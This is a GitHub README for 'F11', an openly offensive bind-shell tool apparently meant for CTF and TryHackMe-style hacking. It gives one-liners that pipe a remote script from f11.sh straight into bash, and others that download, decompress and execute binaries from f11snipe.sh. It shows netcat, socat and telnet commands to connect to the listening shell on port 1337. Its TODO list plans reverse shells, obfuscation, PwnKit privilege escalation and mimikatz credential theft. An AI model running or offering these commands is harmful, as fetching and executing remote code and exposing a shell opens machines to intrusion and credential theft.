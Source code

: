 # F11 - Fully Featured Bind Shell
### *The SnipeSocket*

EST. Apr 23, 2022

## One curl to rule them all

```bash
# Fuk it just do everything for me
curl -sL https://f11.sh | bash
```

### Just connect to bind host:port
```bash
# Connect to F11 bind server (IP:1337)
socat stdio tcp:localhost:1337
```

```bash
# Also works with netcat & telnet :)
nc localhost 1337
```

```bash
# Or for the old guys
telnet localhost 1337
```

## PoC

![poc](https://user-images.githubusercontent.com/26688050/165448887-1982ecc2-1ca8-4c91-8ea1-20c7f63a5541.gif)


*Stay tuned! More to come on [f11.sh](https://f11.sh)*

## Install via NPM

```bash
npm i -g f11 && f11
```

## Standalone hosted (compressed) binaries
- [f11-linux.xz](https://f11snipe.sh/f11-linux.xz)
- [f11-macos.xz](https://f11snipe.sh/f11-macos.xz)
- [f11-win.exe.xz](https://f11snipe.sh/f11-win.exe.xz)


## Dedicated platform one-liner (linux)

```bash
rm /tmp/f11-linux; curl -sL https://f11snipe.sh/f11-linux.xz -o /tmp/f11-linux.xz && xz -d /tmp/f11-linux.xz && chmod +x /tmp/f11-linux && /tmp/f11-linux
```

## Dedicated platform one-liner (osx)

```bash
rm /tmp/f11-macos; curl -sL https://f11snipe.sh/f11-macos.xz -o /tmp/f11-macos.xz && xz -d /tmp/f11-macos.xz && chmod +x /tmp/f11-macos && /tmp/f11-macos
```


## Dedicated platform one-liner (windows)

```bash
rm /tmp/f11-win.exe; curl -sL https://f11snipe.sh/f11-win.exe.xz -o /tmp/f11-win.exe.xz && xz -d /tmp/f11-win.exe.xz && chmod +x /tmp/f11-win.exe && /tmp/f11-win.exe
```

## Build from source

```bash
# Run all build steps
npm install
npm run ci
```


### Individual build steps
```bash
# Install npm packages
npm install

# Build TypeScript
npm build

# Compile
npm run compile

# Compress
npm run compress
```

## TODO

#### Cleanup
- better intro/helper messaging

#### Core features
- command history
- module groups, tags, etc?
- plugins? (additional features, how would this differ from modules? "extending")
- built-in encoder
  - relay/lookup via online services? (cyber-chef, cracks, common encodings, etc)
- support both TCP + TLS (with unique credentials)
- basic http(s) server to serve as web host/relay (on isolated VPN, i.e. THM)
  - web gui??
- add simple bash "stabilizer" wrapper to spawn nc/socat reverse connection
- support both "bind" and "rev" client/server open port scenarios
- better handling of navigation and special characters, signals, etc


#### Max watchers
- 63603
- Increase
```bash
# Update max watches
sudo sysctl fs.inotify.max_user_watches=524288
sudo sysctl -p
# Show current max
cat /proc/sys/fs/inotify/max_user_watches
```

#### Obfuscation
- LATER

#### Modules to support
- pwnkit
  - https://github.com/ly4k/PwnKit
- mimikatz (windows)
  - https://github.com/ParrotSec/mimikatz
- SUID/SUDO/CAP/
  - https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid

#### Contributions
- Please feel free to contribute!


